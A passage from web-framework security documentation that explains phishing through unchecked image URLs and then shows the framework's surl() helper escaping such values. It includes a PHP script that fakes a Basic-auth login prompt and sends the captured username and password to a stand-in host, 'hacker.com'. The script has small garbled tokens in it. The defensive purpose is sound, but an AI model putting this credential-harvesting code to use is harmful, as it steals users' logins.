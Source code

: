 Usually this kind of situation will appear in `<img src=$url />`, and not verify the `$url` whether within the domain name white list.

Attacker can construct the following code in his own server:

401.php, used to pop up 401 window, then record user information:

```php
  <?php
      header('WWW-Authenticate: Basic realm="No authorization"');
      header('HTTP/1.1 401 Unauthorized');
          $domain = "http://hacker.com/fishing/";
          if ($_SERVER[sectech:'PHP_AUTH_USER'] !== null){
                  header("Location: ".$domain."record.php?a=".$_SERVER[sectech:'PHP_AUTH_USER']."&b=".$_SERVER[sectech:'PHP_AUTH_PW']);
          }
  ?>
```

Then attacker generate an image url`<img src="http://xxx.xxx.xxx/fishing/401.php?a.jpg//" />`.

If user access the page, it will popup a window, and let user type in user's name and password, then account and password will be stored in the hacker's server.

### Prevention

Framework provides `.surl()` macro to do url filtering.It is Used to parse the url in the HTML tags in place (such as `<a href ="" /><img src=""/>`), other places are not allowed to use.

You can add `helper.surl($value)` in the template to output variable.

**Note: in places where you need to parse the url, you must add double quotes outside of surl, or you will result in XSS vulnerabilities.**

Do not use `surl`

```html
<a href="$value" />
```

output:

```html
<a href="http://ww.safe.com<script>" />
```

Use `surl`

```html
<a href="helper.surl($value)" />
```

output:

```html
<a href="http://ww.safe.com&lt;script&gt;" />
```

### Iframe Phishing


[egg-view-nunjucks]: https://github.com/eggjs/egg-view-nunjucks